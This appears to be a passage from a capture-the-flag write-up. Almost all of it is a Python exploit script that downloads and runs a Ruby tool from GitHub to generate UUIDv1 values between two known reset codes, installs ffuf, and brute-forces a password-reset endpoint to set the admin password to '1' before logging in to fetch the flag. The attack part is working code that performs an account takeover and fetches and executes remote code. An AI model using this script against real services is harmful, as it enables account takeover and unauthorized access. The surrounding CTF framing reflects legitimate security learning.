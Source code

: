 ```python

print("[+] First reset code: " + rc1)
print("[+] Second reset code: " + rc2)

# Downloading ruby script to automatically generate UUIDv1 values between 2 different uuids
os.system('wget https://raw.githubusercontent.com/Lupin-Holmes/sandwich/refs/heads/main/sandwich.rb')
os.system('chmod +x sandwich.rb')
os.system('ruby ' + './sandwich.rb ' + rc1 + ' ' + rc2 + ' -o uuids.txt')

# Reversing the order of lines to decrease the duration of attack
os.system('tac uuids.txt > reversed_uuids.txt')

# Download & installing ffuf for brute forcing reset code from the generated uuids.
os.system('sudo apt install ffuf')

# Launching Brute force
print("[+] Launching the bruteforce")
print("[+] Note: When ffuf will find a valid reset code, it will show the response with 2 words. You can simply Press CTRL+C when ffuf have found the code to terminate the brute force and continue the exploit.")
print("[+] Press Enter to continue")
input()
os.system('ffuf -u ' + 'http://' + IP + ':' + PORT + '/reset/password/FUZZ -X POST -d \'password=1\' -w reversed_uuids.txt -t 1000 -H \'Content-type: application/x-www-form-urlencoded\' -mw 2')

print('[+] Exploit completed, the password of admin user has been set to \'1\' with the reset code which got 2 Words in ffuf response!')
print('[+] Fetching flag through the new password')

# Fetching the flag
session = requests.Session()
session.post('http://'+IP+':'+PORT+'/', data='username=admin&password=1', headers={'Content-type':'application/x-www-form-urlencoded'})
print(session.post('http://'+IP+':'+PORT+'/protected', data='password=1', headers={'Content-type':'application/x-www-form-urlencoded'}).text)
```

After running the exploit, it took around 1 hour for the exploit to complete and give us the flag.
